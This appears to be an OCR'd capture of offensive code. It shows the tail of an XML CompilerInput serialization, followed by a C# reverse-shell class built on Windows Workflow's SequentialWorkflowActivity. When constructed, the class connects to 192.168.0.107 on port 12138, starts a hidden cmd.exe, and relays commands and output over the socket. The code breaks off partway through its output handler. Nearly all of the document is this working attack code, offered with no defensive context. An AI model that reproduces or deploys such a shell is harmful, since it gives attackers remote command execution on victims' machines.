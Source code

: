 	<d2p1:libraryPaths xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays" i:nil="true" />
	<d2p1:localAssembly xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.Reflection" i:nil="true" />
	<d2p1:mtInfo i:nil="true"/>
	<d2p1:userCodeCCUs xmlns:d3p1="http://schemas.datacontract.org/2004/07/System.CodeDom" i:nil="true" />
	</parameters>
	</CompilerInput>
 ##### 1.tcp
```csharp
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Net;
using System.Net.Sockets;
using System.Workflow.Activities; 
public class Program : SequentialWorkflowActivity
{
static StreamWriter streamWriter; 
public Program()
{
using(TcpClient client = new TcpClient("192.168.0.107", 12138))
{
using(Stream stream = client.GetStream())
{
using(StreamReader rdr = new StreamReader(stream))
{
streamWriter = new StreamWriter(stream); 
StringBuilder strInput = new StringBuilder(); 
Process p = new Process();
p.StartInfo.FileName = "cmd.exe";
p.StartInfo.CreateNoWindow = true;
p.StartInfo.UseShellExecute = false;
p.StartInfo.RedirectStandardOutput = true;
p.StartInfo.RedirectStandardInput = true;
p.StartInfo.RedirectStandardError = true;
p.OutputDataReceived += new DataReceivedEventHandler(CmdOutputDataHandler);
p.Start();
p.BeginOutputReadLine(); 
while(true)
{
strInput.Append(rdr.ReadLine());
p.StandardInput.WriteLine(strInput);
strInput.Remove(0, strInput.Length);
}
}
}
}
} 
private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
{
StringBuilder strOutput = new StringBuilder(); 
if (!String.IsNullOrEmpty(outLine.Data))
{
try
{
strOutput.Append(outLine.Data);
streamWriter.WriteLine(strOutput);
streamWriter.Flush();
}
```